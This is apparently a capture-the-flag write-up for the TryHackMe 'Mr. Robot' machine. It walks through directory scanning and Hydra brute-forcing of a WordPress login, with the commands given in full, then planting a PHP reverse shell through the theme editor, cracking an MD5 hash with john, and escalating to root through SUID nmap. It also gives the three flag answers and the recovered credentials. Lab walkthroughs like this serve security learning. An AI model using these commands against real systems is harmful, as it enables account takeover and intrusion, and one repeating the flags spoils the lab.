 ```yaml
---
title: Mr. Robot
date: 2022-04-29 17:00:00 +500
categories: [THM, medium machine]
tags: [bruteforce,hash]    # TAG names should always be lowercase
---
```




## Hack the machine

### What is key 1?

As usual, I'll start with the Nmap scan:

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

we got two web servers, one with HTTP protocol and the other with HTTPS, looking into them they're the same, a page with the Mr. Robot series theme, but nothing really to look into.

let's perform a gobuster scan, to see if there's a hidden directory

```terminal
gobuster dir -u 10.10.133.98 -w /usr/share/dirb/wordlists/common.txt
```

```
/0                    (Status: 301) [Size: 0] [--> http://10.10.133.98/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.133.98/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.133.98/audio/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.133.98/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.133.98/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.133.98/image/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.133.98/Image/]
/images               (Status: 301) [Size: 235] [--> http://10.10.133.98/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 231] [--> http://10.10.133.98/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.133.98/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.133.98/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.133.98/wp-content/]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.133.98/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-config            (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2606]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php?action=register]      
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc               (Status: 405) [Size: 42]
```

quite an output we got, with a couple of interesting things, now we know the site is built on WordPress, and the robots file was readable, and we now have two more file directories

* fsocity.dic
    
    which is a dictionary that we may need to use for later brute-forcing

* key-1-of-3.txt

    which is the first flag
    
> 073403c8a58a1f80d943455fb30724b9

### What is key 2?

now with that dictionary, I'll try to brute force the WordPress login page, to do that I'll use hydra.

this page has a major flaw because it tells us when the username is invalid, so we will brute force the username first until we found a valid username and then try with the password.

the syntax will be:
```
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* USER

    In this case, we will brute force the username so this would be the dictionary

* Password

    This can be anything it doesn't matter

* Login Page

    this is the directory of the login page, in this case '/wp-login.php'

* Request body

    You can get this by opening the console of your browser, and in the network tab viewing the POST request to wp-login.php after entering anything and pressing login, in this case, I put in both username and password and this is the request body 'log=a&pwd=a&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1'.

    But we need two change the part where the username and password go through the request so hydra will know what to change. In the user put ^USER^ and the password ^PWD^.

    log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1


* Error Message

    this is the message we got 'Invalid username.'


the final command would be this:

```terminal
hydra -L fsocity.dic -p 'a' 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:Invalid username."
```

and we got
```
[80][http-post-form] host: 10.10.133.98   login: Elliot   password: a
```

now let's try to get the password for Elliot, we just need to change the user, password, and error message of the hydra command. And the flags also, if -l or -p are in lowercase it means that it's just one, and if they are in uppercase means that are multiple of: like a dictionary file.

```terminal
hydra -l Elliot -P fsocity.dic 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:The password you entered for the username Elliot is incorrect." 
```

and the password is 'ER28-0652'

looking around there was not much around, so since we are an admin user I'll try to change one page to be a reverse shell, to do this I go to appearance, then editor, and you can change whatever .php file you'd like, in this case, I'll change the 404 page.
I'll use the pentest monkey reverse shell, set up a listener, and go to /wordpress/wp-content/themes/twentyfifteen/404.php, since the page we changed is from the theme twentyfiftteen.

and we got a shell!

we found a user called robot, in his home directory have two files, the second key, which we don't have permission to read, and a password.raw-md5 file which apparently has the credentials for this user, with the password encrypted, let's try to decrypt it.

the title of the file was very descriptive and tells us that is md5 raw encrypted, so I'll use hashcat with the fsocity.dic to decrypt it.

so it ended up not working, so I used john

```terminal
john --wordlist=fsocity.dic --format=Raw-MD5 encryptedpass
```

the password being: 'abcdefghijklmnopqrstuvwxyz'

now that we have access to the robot user, we can cat out the second key:

> 822c73956184f694993bede3eb39f959

### What is key 3?

now I guess all it's left to do is privilege escalation, I try with the tried and true sudo -l with no luck, then I search for SUID files and I saw something strange, Nmap.

In this part I went down a rabbit hole, in gtfobins I tried to follow the suid way of exploit where it said you can overwrite a file with sudo, so I tried many ways to change the /etc/shadow file to change the root user password with no luck.

The way to gain a root shell was actually quite easy 

```terminal
nmap --interactive
```

then

```
nmap> !sh
```

and we got ourselves a root shell, all it's left to do is to go read the third key in the /root directory

> 04787ddef27c3dee1ee161b21670b4e4